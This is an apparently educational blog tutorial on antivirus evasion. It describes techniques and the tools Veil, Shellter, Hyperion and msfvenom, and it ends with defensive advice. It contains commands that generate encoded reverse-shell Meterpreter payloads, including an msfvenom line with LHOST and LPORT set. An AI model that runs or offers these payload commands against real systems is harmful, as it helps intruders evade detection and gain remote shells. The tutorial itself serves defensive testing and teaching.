 ```yaml
---
title: "Defense Evasion Techniques: Guide to Antivirus Evasion Tools"
image: "https://armur-ai.github.io/armur-blog-ethicalhacking/images/1.avif"
icon: "code"
draft: false
---
```



In the world of cybersecurity, staying ahead of malicious actors is a constant challenge. One particularly pressing area is defense evasion, which refers to tactics employed by attackers to avoid detection by security tools. Antivirus evasion tools play a pivotal role here. They allow attackers to circumvent antivirus software, giving them a foothold in systems without being detected. Understanding these evasion techniques can help cybersecurity professionals anticipate potential threats, enhancing their defensive strategies.

This tutorial will cover the fundamentals of antivirus evasion, popular evasion tools, methods attackers use to stay undetected, and best practices for reinforcing system defenses.

## What Are Antivirus Evasion Tools?

Antivirus evasion tools are designed to obscure or alter malicious software in ways that prevent detection by antivirus programs. These tools exploit weaknesses in signature-based detection, behavior analysis, and heuristic approaches used by antivirus solutions. By manipulating the file structure, encoding payloads, or modifying behaviors, these tools enable attackers to infiltrate networks without triggering alerts.

## Why Defense Evasion Matters

Understanding defense evasion techniques is crucial for defending against sophisticated attacks. Cybercriminals use these techniques to prolong their stay within a compromised environment, collect valuable information, and achieve their objectives without being caught. In the era of advanced persistent threats (APTs) and highly targeted attacks, knowledge of these techniques is invaluable.

## Common Antivirus Evasion Techniques

Antivirus evasion can be achieved through various methods, including:

- **Code Obfuscation:** Attackers scramble code to hide malicious intent, making it difficult for antivirus programs to detect malware signatures.
- **Encryption and Encoding:** Malware is encrypted or encoded to prevent signature-based detection. This method often requires the malware to decrypt itself upon execution.
- **Polymorphism and Metamorphism:** Malware can modify its own code slightly with each infection, producing unique signatures and evading detection.
- **Process Injection:** Attackers inject malicious code into legitimate processes, hiding their activity within trusted applications.
- **Fileless Malware:** By operating in memory instead of storing on disk, fileless malware evades traditional file-based antivirus scans.
- **Virtual Machine Evasion:** Malware detects when it’s being analyzed in a virtual machine or sandbox environment, altering its behavior to avoid detection.

These techniques form the basis of antivirus evasion and are often combined to increase the likelihood of success.

## Key Antivirus Evasion Tools

Below are some widely known antivirus evasion tools used by attackers (and studied by cybersecurity professionals) to test and improve defenses:

### Veil Framework

Veil is a popular tool that generates payloads capable of bypassing antivirus software. By obfuscating payloads, Veil helps security professionals test their systems' resilience against evasion attempts.

**Install Veil:**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./setup.sh
```

**Generate an Evasive Payload:**
```bash
./Veil.py -p python/meterpreter/rev_https -o payload
```

### Shellter

Shellter is a dynamic shellcode injection tool, primarily used to make legitimate applications appear malicious-free, bypassing antivirus scans. This tool is often applied to Windows applications.

**Using Shellter in Wine (Linux):**
```bash
wine shellter.exe
```

**Injecting Payload:** Select the payload you want to inject, such as reverse TCP, and let Shellter do the obfuscation.

### Hyperion

Hyperion is an encryption-based evasion tool that wraps a payload in layers of encryption, making it harder for antivirus software to detect.

**Basic Usage of Hyperion:**
```bash
hyperion.exe encrypted_payload.exe
```

### Metasploit’s msfvenom

Msfvenom is a payload generator and encoder included in the Metasploit framework. With encoding options, msfvenom can evade detection by modifying how payloads appear.

**Generating Encoded Payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_payload.exe
```

Each of these tools plays a role in bypassing antivirus protections and is essential knowledge for understanding how attackers approach defense evasion.

## Practical Examples and Use Cases

Here are real-world applications and scenarios for understanding antivirus evasion:

- **Simulating Advanced Persistent Threats (APTs):** Using tools like Veil, security analysts can simulate an APT attack to identify weak spots in their network and address vulnerabilities in antivirus and detection mechanisms.
  
- **Testing Signature-Based Detection Systems:** By deploying encoded payloads through msfvenom or Shellter, cybersecurity teams can evaluate the robustness of signature-based antivirus systems.

- **Improving Defensive Techniques:** By studying how evasion tools operate, security teams can develop countermeasures, such as monitoring anomalous behavior or implementing network-based detection to supplement antivirus programs.

## Step-by-Step Guide to Using Veil for Evasion Testing

Let’s walk through using Veil, a popular antivirus evasion tool:

1. **Set Up Veil:** Clone the Veil repository and run the setup script:
   ```bash
   git clone https://github.com/Veil-Framework/Veil.git
   cd Veil
   ./setup.sh
   ```

2. **Run Veil to Create a Payload:** Launch Veil, then choose the payload type:
   ```bash
   ./Veil.py -p python/meterpreter/rev_https -o my_payload
   ```

3. **Configure the Payload:** Enter the necessary parameters, such as LHOST and LPORT, and Veil will generate an encoded payload ready for testing.

4. **Deploy the Payload in a Testing Environment:** It’s crucial to deploy this payload within a secure, isolated test environment to observe if your defenses can detect it.

5. **Analyze Results and Adjust Defenses:** Review the behavior of your antivirus software and other defenses. Consider implementing behavioral analysis if signature-based detection fails.

## Enhancing Defenses Against Evasion Techniques

Now that we’ve seen how attackers might bypass antivirus protections, here are ways to bolster defenses:

- **Use Multi-Layered Security:** Antivirus is just one layer of defense. Combine it with endpoint detection and response (EDR) systems, network-based intrusion detection, and anomaly detection to create a robust security architecture.

- **Behavioral Analysis and AI-Based Detection:** Incorporating behavioral analysis allows security tools to detect suspicious actions rather than relying solely on signatures. Machine learning models can identify anomalies that indicate potential evasion.

- **Regular Testing and Updating:** Use tools like Veil and Hyperion to test your antivirus defenses regularly. Additionally, ensure that antivirus software is updated with the latest threat intelligence.

- **Endpoint Hardening:** Restricting administrative access, limiting software installations, and enforcing strict access controls can prevent attackers from easily executing evasion tools.

## Conclusion

Antivirus evasion is a sophisticated and evolving domain within cybersecurity. Tools like Veil, Shellter, and Hyperion illustrate the creative methods attackers employ to bypass antivirus defenses. For security professionals, understanding these tools provides a unique advantage: the ability to test and strengthen defenses proactively. By adopting multi-layered defenses, behavior-based detection, and routine testing, organizations can significantly reduce the risk of evasion techniques being successfully used against them.